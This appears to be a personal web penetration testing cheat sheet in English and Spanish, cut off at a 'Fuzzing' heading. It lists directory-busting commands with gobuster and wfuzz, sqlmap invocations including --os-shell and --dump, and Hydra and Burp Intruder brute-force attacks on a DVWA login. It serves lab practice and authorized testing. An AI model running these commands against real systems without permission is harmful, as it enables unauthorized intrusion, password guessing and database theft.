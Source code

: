 # Web Pentesting

### **Web Application Enumeration Checklist:**

```bash
1. Checkout the entire webpage and what it is displaying.
2. Read every page, look for emails, names, user info, etc.
3. Directory Discovery (time to dir bust!)
4. Enumerate the interface, what is the CMS & Version? Server installation page?
5. Check for potential Local File Inclusion, Remote File Inclusion, SQL Injection, XXE, and Upload vulnerabilities
6. Check for a default server page, identify the server version
7. View Source Code:
      a. Check for hidden values
      b. Check for comments/developer remarks
      c. Check for Extraneous Code
      d. Check for passwords
8. Check for robots.txt file
9. Web Scanning

```

### Directory Discovery/Dir Busting:

```bash
gobuster dir -u $IP -w /usr/share/seclists/Discovery/Web-Content/common.txt
	
```

### Gobuster Quick Directory Discovery

```bash
gobuster -u $ip -w /usr/share/seclists/Discovery/Web_Content/common.txt -t 80 -a Linux

```

### Gobuster Directory Busting:

```bash
wget <https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/Top1000-RobotsDisallowed.txt>; gobuster -u <http://10.10.10.10>. -w Top1000-RobotsDisallowed.txt

```

```bash
gobuster dir -u <http://$ip> -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php -o gobuster-root -t 50

```

### Gobuster comprehensive directory busting:

```bash
gobuster -s 200,204,301,302,307,403 -u 10.10.10.10 -w /usr/share/seclists/Discovery/Web_Content/big.txt -t 80 -a 'Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0'

```

### Gobuster search with file extension:

```bash
gobuster -u 10.10.10.10 -w /usr/share/seclists/Discovery/Web_Content/common.txt -t 80 -a Linux -x .txt,.php

```

### wfuzz search with files:

```bash
wfuzz -c -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --sc 200 <http://10.10.10.10/FUZZ>

```

### If you are really stuck, run this:

```bash
for file in $(ls /usr/share/seclists/Discovery/Web-Content); do gobuster -u <http://$ip/> -w /usr/share/seclists/Discovery/Web-Content/$file -e -k -l -s "200,204,301,302,307" -t 20 ; done

```

### Check different extensions:

```bash
sh,txt,php,html,htm,asp,aspx,js,xml,log,json,jpg,jpeg,png,gif,doc,pdf,mpg,mp3,zip,tar.gz,tar

```

## SQL Injection Testing (automated!)

### if you follow the above check list, you should have a list of parameters to test for SQL injection. Automate it with SQLMAP!

### SQLmap Commands:

```bash
sqlmap -u <http://10.10.10.10> -p parameter
sqlmap -u <http://10.10.10.10>  --data POSTstring -p parameter
sqlmap -u <http://10.10.10.10> --os-shell
sqlmap -u <http://10.10.10.10> --dump

```

### Checklist

Fichero de passwords

```html
/var/www/html/.htpasswd
```

### **Bruteforce Login Panel**

- Burpsuite
    
    Capturamos la petición con Burpsuite con cualquier credencial.
    
    Mandamos al Intruder
    
    Establecemos con el tipo de ataque (Sniper attack para un campo si conocemos usuario o Cluster Bomb para probar combinaciones de usuario/password
    
    Añadimos $ para marcar los campos a atacar (username y password)
    
    En Payloads cargamos los diccionarios
    
    ![image.png](Web%20Pentesting%20170360cb06dd803bba9ddd7fc1598a51/image.png)
    
- Hydra
    
    ```bash
    hydra -L <users_file> -P <password_file> <url> http[s]-[post|get]-form 
    "index.php:param1=value1&param2=value2&user=^USER^&pwd=^PASS^&paramn=valn:[F|S]=messageshowed"
    
    -e ns : 
    Prueba nombres de usuario vacíos (n) y contraseñas vacías (s). Es útil para detectar configuraciones por defecto o credenciales vacías.
    
    -F: 
    Finaliza el ataque en cuanto encuentra una combinación válida de usuario y contraseña.
    
    -u:
    Intenta un usuario a la vez antes de pasar al siguiente (en lugar de probar todas las contraseñas con cada usuario).
    
    EX HTTP GET LOGIN 
    
    hydra -l admin -P /root/Desktop/wordlists/test.txt http://www.website.com 
    http-get-form "/brute/index.php:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect."
    
    hydra  -L /usr/share/seclists/Usernames/top_shortlist.txt -P /usr/share/seclists/Passwords/rockyou-40.txt -e ns -F -u -v 192.168.1.44  http-get-form 
    "/DVWA/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:S=Welcome to the password protected area:H=Cookie\: security=low; PHPSESSID=${SESSIONID}"
    
    EX HTTP POST LOGIN
    
    ```
    
    Ejemplo:
    
    ```bash
    Para panel de login: Capturamos peticion de Burpsuite para ver todos los campos
    
    Ejemplo de petición :
    
    GET /vulnerabilities/brute/?username=test&password=§test§&Login=Login HTTP/1.1
    Host: 127.8.0.1
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate, br
    Connection: keep-alive
    Referer: http://127.8.0.1/vulnerabilities/brute/
    Cookie: PHPSESSID=dsq1vaq210onuch60f38cpq6i4; security=low
    Upgrade-Insecure-Requests: 1
    Sec-Fetch-Dest: document
    Sec-Fetch-Mode: navigate
    Sec-Fetch-Site: same-origin
    Sec-Fetch-User: ?1
    Priority: u=0, i
    
    Hydra: Añadimos toda la info, separada por : y cambiamos username y password por variables para fuzzear ^USER^ y ^PASS^ y con el parametro F(Follow) añadimos la respuesta de password incorrecto que muesta. ('Username and/or password incorrect')
    
    $> hydra -t16 -l admin -P /usr/share/wordlists/rockyou.txt 'http-get-form://127.8.0.1/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie\:PHPSESSID=dsq1vaq210onuch60f38cpq6i4;security=low:F=Username and/or password incorrect.'
    ```
    
- 

```bash
burpsuite
```

### Fuzzing